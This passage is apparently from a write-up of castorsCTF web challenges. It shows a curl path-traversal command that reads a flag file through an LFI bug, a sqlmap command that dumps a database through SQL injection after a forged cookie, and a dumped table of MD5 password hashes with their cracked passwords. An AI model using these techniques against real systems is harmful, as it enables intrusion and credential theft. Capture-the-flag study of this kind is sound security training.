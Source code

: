 ```go
        content = scanner.Text()
    }

    fmt.Fprintf(w, "Directories: %s/%s\n", ps.ByName("directory"), ps.ByName("theme"))
    fmt.Fprintf(w, "File: %s\n", ps.ByName("whynot"))
    fmt.Fprintf(w, "Contents: %s\n", content)
}
```
After inspecting the source code we see that the super function gives us LFI, but only the last line in the file we want to view.

We tried alot of stuff, including viewing the .csv files, different files in /proc, until we finally looked at the description hinting to the name jeff. 

```bash
curl --path-as-is -g 'http://web1.cybercastors.com:14436/test/home/jeff/flag.txt' -o -
Directories: home/jeff
File: flag.txt
Contents: castorsCTC{wh0_l4iks_qUiZZ3s_4nyW4y}
```

## Car Lottery
We're presented with a website that says you need to be visitor number N, for some large number N, in order to buy a car. Inspecting the requests, it's clear that this is set through cookies, and we can gain access by setting the cookie `client=3123248`. This allows us to browse the cars, by querying for data. Probing around here a bit, reveals an SQLi vulnerability in the lookup. We dump the entire database with this.

`python sqlmap.py -o -u "http://web1.cybercastors.com:14435/search" --data "id=1" --cookie="client=3123248" --dump-all`

Inspecting the data, there's a table called `Users` with the following contents:

```
Username,Password
admin@cybercastors.com,cf9ee5bcb36b4936dd7064ee9b2f139e
admin@powerpuffgirls.com,fe87c92e83ff6523d677b7fd36c3252d
jeff@homeaddress.com,d1833805515fc34b46c2b9de553f599d
moreusers@leakingdata.com,77004ea213d5fc71acf74a8c9c6795fb
```

Which are easily cracked

```
cf9ee5bcb36b4936dd7064ee9b2f139e:naruto 
fe87c92e83ff6523d677b7fd36c3252d:powerpuff
d1833805515fc34b46c2b9de553f599d:pancakes
77004ea213d5fc71acf74a8c9c6795fb:fun
```

Here we got stuck for a while, until an admin hinted towards scanning for endpoints. This gave us `http://web1.cybercastors.com:14435/dealer`, where we could use the credentials above to log in and get the flag.

`castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}`
## Mixed Feelings
Found some commented out "php" code.
